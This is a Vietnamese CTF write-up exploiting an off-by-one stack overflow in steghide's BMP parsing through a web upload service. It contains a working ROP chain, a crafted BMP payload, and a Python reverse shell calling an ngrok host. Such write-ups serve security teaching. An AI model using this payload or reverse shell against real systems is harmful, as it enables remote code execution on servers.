 **1. Tìm lỗi**
  - Đây là chall dùng 1 tool thực tế có tên là `steghide` nên việc tìm lỗi thông qua `source` rất khó. Tuy nhiên chall này đã cung cấp cho ta 2 file `binary` trong đó có một file có lỗi và một file đã vá, ta chỉ cần chỉ ra điểm khác nhau là có thể dễ dàng tìm thấy được lỗi.
  - A Hy đã chỉ mình dùng tool `Bindiff` để so sánh, và dễ dàng chỉ ra điểm khác nhau ở hàm `BmpFile::readdata()`
  - ![image](https://user-images.githubusercontent.com/113702087/230003701-123b757e-92a1-4b1b-a401-6d46e03ac9e7.png)
  - Khi độ chính xác của hàm này ở 2 file là `99%`.
  - ![image](https://user-images.githubusercontent.com/113702087/230004061-c3aa1828-cf77-48d7-922e-fe84e25583e8.png)
  - Dễ dàng thấy điểm khác nhau tại vòng `for` khi điều kiện lặp ở file lỗi là `<= height` trong khi ở file vá là `< height`. Điều này có thể dẫn đến các lỗi như `overflow`, `out of bound`, ...
  - ![image](https://user-images.githubusercontent.com/113702087/230006389-e6491c26-0bc8-490d-971b-7c86ec58d04c.png)
  - Trong hàm này nó sẽ đọc dữ liệu từ `file` lượng byte tối đa đọc được phụ thuộc vào `height` và `linelength`, tổng lượng byte đọc được sẽ lưu vào `numread` tuy nhiên do `<=` nên `numread` sẽ vượt quá `height*linelength`. Mình sẽ dùng `x` của `ida` để xem `numread` được sử dụng ở đâu.
  - Cho ai thắc mắc thì `height` và `linelength` là chiều rộng và chiều dài của file và nó được đọc từ trường `header` của file thông qua hàm `BmpFile::readheaders()` vậy nên thêm bao nhiêu dữ liệu vào file (miễn không đụng vào header file) thì giá trị của chúng luôn không đổi.
  - ![image](https://user-images.githubusercontent.com/113702087/230009548-865d05a9-9daa-4e8b-9016-78001dc91068.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230009377-c6ed3fd2-5264-40b9-a966-305c34faf26f.png)
  - Sau khi `readdata` nó sẽ thực hiện `getdata` nơi sẽ gọi `getheaders`. Trong `getheaders` nó thực hiện cấp phát bằng `alloca` trên stack bằng `height*linelength` nhưng nó lại dùng `memcpy(&v3, a1, (unsigned int)numread)` để copy dữ liệu đọc được từ file vào stack với size là `numread`, như đã nói ở trên `numread` có thể > `height*linelength` do đó tại đây nó sẽ gây lỗi `overflow`.
  - Về phía `server` là một `website`
  - ![image](https://user-images.githubusercontent.com/113702087/230004814-79b696e8-b4fb-479b-af81-674edb6c0d2f.png)
  - nó nhận đầu vào là một `file` và `pass` của file này rồi thực thi câu lệnh `subprocess.run(['steghide', 'extract', '-sf', stegfile_name, '-p', request.form['passphrase'], '-xf', outfile_name], check=True, timeout=60)`
  - Có vẻ như `BmpFile::readdata()` sẽ được thực hiện khi ta `extract` một file `bmp` nên ta sẽ dùng `bmp` để gửi `payload`.

**2. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/230013813-388a983e-9275-4395-8656-8989c86eae87.png)
  - Ta có thể `overwrite` saverip với 126 byte khá là ít, tuy nhiên đủ để ta tạo shell nhưng việc tạo shell dường như là vô nghĩa khi nó không có `netcat`. Vậy nên ta sẽ chuyển sang hướng `reverse shell` để tạo `shell` về máy mình. Đê làm được điều này ta cần rất nhiều gadget do đó ta sẽ thay đổi rsp thông qua rbp với một địa chỉ ghi được đã biết.
  - Do không thể sử dụng các hàm input vì không có `netcat` nên ta sẽ sử dụng input có sẵn từ file để nạp `gadget` vào một địa chỉ trên binary và trỏ rsp vào đây. Ta có thể lợi dụng `memcpy` lần nữa để đưa các `payload` từ file vào địa chỉ mong muốn do ta có thể thay đổi `rdi` thông qua `pop rdi ; ret`.
  - Trước khi `ret` các thanh ghi có giá trị như sau:
  - ![image](https://user-images.githubusercontent.com/113702087/230015037-8418ddf8-ae2e-4d3b-81f6-eaaa5f467e63.png)
  - Dường như sau khi `memcpy` thì `rsi` và `rdi` đã thay đổi chỉ còn lại `rdx`. Tuy nhiên `rdi` mới này lại cách `rsi` cũ `0x58` byte vậy nên có thể coi nó là `rsi` cũ, việc cần làm là chuyển `mov rsi, rdi ;  pop rdi ; ret ; memcpy` thì ta có thể thực hiện chuyển `payload` sang địa chỉ tùy ý. Nhưng gần như không có gadget nào thỏa mãn điều này. Các gadget control `rsi` dường như sẽ khiến chương trình `exit`.
  -  Sau một lúc suy ngẫm thì mình thấy được cái này.
  -  ![image](https://user-images.githubusercontent.com/113702087/230018211-eb4539b8-9a4f-4513-91c8-98d3258c69c4.png)
  -  ![image](https://user-images.githubusercontent.com/113702087/230018590-232045e1-e886-4384-a83b-e5b49b3125d2.png)
  - Một phần của hàm `getheaders()`, điều này có nghĩa là ta sẽ thay đổi được `[rbp+dest]` và `[rbp+src]`, ban đầu ta sẽ thay đổi `rbp` rồi đưa `rdi` vào `[rbp+src]`, như thế ta có thể copy `payload` vào địa chỉ tùy ý rồi.
  - ![image](https://user-images.githubusercontent.com/113702087/230021665-e1162f76-40f8-443a-97a2-40e31c4f0816.png)
  - Việc bây giờ ta chỉ tính `offset` và thực thi `reverse shell`
  - Mình sẽ chọn `python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"0.tcp.ap.ngrok.io\",13577));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'` để làm `reverse shell`, rồi thực thi `system(reverseshell)`

**3. Khai thác**
  ```
  pop_rax_rbx_rbp = 0x0000000000414d29
pop_rsi = 0x0000000000417f3e
pop_rdx = 0x000000000042cd0c
pop_rdi = 0x0000000000450e8b
add_irbp_ebx = 0x0000000000404a38
pop_rbp = 0x0000000000404a39
leave_ret = 0x000000000040a392
syscall = 0x00000000004066b3
addr = 0x48a930
movinrbp_rdi = 0x00000000004220e0
  ```
  - setup một số `gadget` có ích
  ```
  headerfile = b'BMzL\x02\x00\x00\x00\x00\x00>\x00\x00\x00(\x00\x00\x00\xd3\x05\x00\x00!\x03\x00\x00\x01\x00\x01\x00\x00\x00\x00\x00<L\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\x00'
shellrv = f'python3 -c \x27import os,pty,socket;s=socket.socket();s.connect((\x22{ip}\x22,{port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\x22sh\x22)\x27\x00'
shell = headerfile + b'a'*(len(shellrv)-10 - 8)
  shell += flat(
    pop_rax_rbx_rbp+1, 0x13e10, exe.got['gettext'] + 0x3d,
    add_irbp_ebx,
    pop_rdi, 0x48abd4,
    exe.sym['gettext'],
    word_size=64, sign = True
)
  ```
  - Đầu tiên ta sẽ tạo một `headerfile` và `reverse_shell`, căn chỉnh thêm `offset` rồi đưa các `gadget` vào các `gadget` này sẽ được thực thi sau khi thay đổi được rsp
  - `gadget` trên sẽ thay đổi `gettext got` thành `system` và thực thi `reverse shell`
  ```
  shell += shellrv.encode()*29
shell = shell.ljust(0x24c71, b'\xff') + 0x3e*b'a'
  ```
  - Tiếp đến ta sẽ đưa `reverse shell` vào và bù thêm một phần để `overflow` đoạn `memcpy`.
  ```
  rop = flat(
    addr,
    movinrbp_rdi, addr + 8,
    pop_rdi, addr,
    movinrbp_rdi, addr + 0x20,
    pop_rdx, 0x6d0,
    0x41B355,
    pop_rbp, addr,
    leave_ret,
    word_size=64, sign = True
)

shell += rop
  ```
  - ROP này sẽ được chèn vào khi `overflow` nhằm thực hiện lại `memcpy` như đã nói ở trên và thay đổi `rsp`.

**4. Demo trên docker**
  - Mình test trên `docker` được nhưng `server` thì lỗi nên sẽ làm trên `docker`.
  - ![image](https://user-images.githubusercontent.com/113702087/230026857-978c0b29-a759-4c2b-a375-3aa14e069da8.png)
  - Ta tạo host thông qua `ngrok` và `listen` tại port `8080`. Rồi tạo file ảnh với `script` trên theo `ip` và `port`
  - Ta sẽ gửi file ảnh lên `web` và chờ kết quả
  - ![image](https://user-images.githubusercontent.com/113702087/230027418-d7f1184e-a457-4d42-97e4-ae59028f615f.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230027932-bc1f95db-6601-45f8-b848-4a508c11b3ba.png)
  **Đã sửa `script` để tạo ip và port tùy ý vào `payload`**

